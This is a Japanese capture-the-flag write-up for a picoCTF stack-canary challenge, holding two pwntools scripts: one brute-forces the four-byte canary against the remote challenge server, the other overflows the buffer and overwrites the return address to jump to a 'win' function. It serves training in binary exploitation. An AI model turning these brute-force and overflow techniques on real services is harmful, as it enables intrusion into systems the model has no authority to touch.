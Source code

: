 <br />

### Solution
これは [picoCTF 2019のCanaRy](https://captureamerica.github.io/writeups/post/picoctf_2019_binary/#binary-exploitation-canary-300-points) とほぼ同じです。

前回は、Shell Server上でローカルでアタックできましたが、今回はサーバー インスタンスを都度起動しないといけなくて、リモートで解く必要がありました（たぶん）。

```Python
#!/usr/bin/env python
from pwn import *
import time
canary=''

while len(canary) < 4:
    for i in range(256):
        try:
            p = remote('saturn.picoctf.net', 53550)
            p.recvuntil('>')
            p.sendline('{}'.format(64+1+len(canary)))
            p.recvuntil('>')
            p.sendline('a'*64+canary+'{}'.format(chr(i)))
            tmp=p.recvline()

            print(tmp)
            if "Ok... Now Where's the Flag?" in tmp:
                canary += chr(i)
                log.info('Partial canary: {}'.format(canary))
                break
        except EOFError:
            time.sleep(1)
            pass
log.info('Found canary: {}'.format(canary))
```

これで、Canaryの値 `BiRd` が得られます。

<br />

あとは、以下の通りです。

```Python
#!/usr/bin/env python
from pwn import *

s = remote('saturn.picoctf.net', 53162)

payload = b'A' * 64
payload += 'BiRd'
payload += b'B' * 16
payload += p32(0x8049336) # win

s.sendlineafter("How Many Bytes will You Write Into the Buffer?\n> ", str(len(payload)))
s.sendlineafter("Input> ", payload)
s.interactive()
```
